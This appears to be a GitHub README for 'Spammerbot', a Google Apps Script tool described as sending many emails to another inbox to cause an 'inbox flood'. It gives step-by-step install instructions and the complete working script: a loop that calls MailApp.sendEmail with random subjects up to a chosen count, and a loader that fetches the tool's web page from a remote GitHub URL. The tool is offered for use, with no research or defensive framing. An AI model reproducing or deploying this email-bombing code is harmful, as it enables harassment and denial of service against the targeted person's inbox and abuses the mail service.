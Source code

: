 <p align="center"><img src="https://cdn-icons-png.flaticon.com/512/4403/4403384.png" width="250" height="250"></p>

<h1 align="center">Spammerbot</h1>

<p align="center">
<img src="https://img.shields.io/github/followers/WillDev12?label=follow%20my%20github&logo=github&style=for-the-badge">
<img src="https://img.shields.io/github/stars/WillDev12/Spammerbot?style=for-the-badge">
<img src="https://img.shields.io/github/forks/WillDev12/Spammerbot?style=for-the-badge">
<img src="https://img.shields.io/github/watchers/WillDev12/Spammerbot?style=for-the-badge">
</p>

<br><br>

## What it does
Sends a desired amount of emails[^1] to another inbox in a quick manner resulting in an inbox flood.

<br>

## How to install?

1. Open new Google Apps Script
2. Delete `myFunction` and paste the following:
```javascript
function doGet(e) { var service = HtmlService.createHtmlOutput(UrlFetchApp.fetch("https://raw.githubusercontent.com/WillDev12/Spammerbot/main/src/index.html")).setTitle("Spammerbot | The gmail spammer"); return(service); } function sendSpam(email, number, message) { var i = 0; var num; while (i <= number) { num = Math.floor((Math.random()*1000000000000)+1); MailApp.sendEmail(email, num, message); i++; } }
```
3. Deploy as web app and open the url!

<br><br>

# Like content like this?

Check out my [profile](https://github.com/WillDev12) or share it! (It means a lot to me)<br>
```
https://github.com/WillDev12
```

[^1]: Sadly due to the fact that logging into an external account cannot be performed in Google Apps Script, every email sent will be delivered from your own personal account.
